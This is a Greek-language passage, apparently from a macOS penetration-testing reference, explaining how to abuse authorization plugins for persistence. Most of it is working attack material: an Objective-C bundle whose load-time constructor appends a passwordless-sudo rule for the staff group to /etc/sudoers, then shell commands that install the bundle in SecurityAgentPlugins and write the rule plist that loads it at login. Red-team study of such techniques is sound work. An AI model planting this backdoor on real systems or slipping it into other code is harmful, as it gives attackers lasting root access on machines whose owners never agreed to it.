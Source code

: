 {% hint style="danger" %}
Σημειώστε ότι αυτός ο κατάλογος προστατεύεται από το TCC, επομένως είναι πολύ πιθανό να ζητηθεί από τον χρήστη άδεια πρόσβασης.
{% endhint %}

### Πρόσθετα Εξουσιοδότησης

Ανάλυση: [https://theevilbit.github.io/beyond/beyond\_0028/](https://theevilbit.github.io/beyond/beyond\_0028/)\
Ανάλυση: [https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65](https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65)

* Χρήσιμο για παράκαμψη του sandbox: [🟠](https://emojipedia.org/large-orange-circle)
* Αλλά χρειάζεστε δικαιώματα ρίζας και επιπλέον ρυθμίσεις
* Παράκαμψη TCC: ???

#### Τοποθεσία

* `/Library/Security/SecurityAgentPlugins/`
* Απαιτείται ρίζα
* Απαιτείται επίσης να διαμορφώσετε τη βάση δεδομένων εξουσιοδότησης για να χρησιμοποιήσει το πρόσθετο

#### Περιγραφή & Εκμετάλλευση

Μπορείτε να δημιουργήσετε ένα πρόσθετο εξουσιοδότησης που θα εκτελείται όταν ένας χρήστης συνδέεται για να διατηρήσετε την επιμονή. Για περισσότερες πληροφορίες σχετικά με το πώς να δημιουργήσετε ένα από αυτά τα πρόσθετα, ελέγξτε τις προηγούμενες αναλύσεις (και προσέξτε, ένα κακά γραμμένο μπορεί να σας κλειδώσει έξω και θα χρειαστεί να καθαρίσετε το Mac σας από τη λειτουργία ανάκτησης).
```objectivec
// Compile the code and create a real bundle
// gcc -bundle -framework Foundation main.m -o CustomAuth
// mkdir -p CustomAuth.bundle/Contents/MacOS
// mv CustomAuth CustomAuth.bundle/Contents/MacOS/

#import <Foundation/Foundation.h>

__attribute__((constructor)) static void run()
{
NSLog(@"%@", @"[+] Custom Authorization Plugin was loaded");
system("echo \"%staff ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers");
}
```
**Μετακινήστε** το δέμα στη θέση που θα φορτωθεί:
```bash
cp -r CustomAuth.bundle /Library/Security/SecurityAgentPlugins/
```
Τέλος, προσθέστε τον **κανόνα** για τη φόρτωση αυτού του Πρόσθετου:
```bash
cat > /tmp/rule.plist <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>class</key>
<string>evaluate-mechanisms</string>
<key>mechanisms</key>
<array>
<string>CustomAuth:login,privileged</string>
</array>
</dict>
</plist>
EOF

```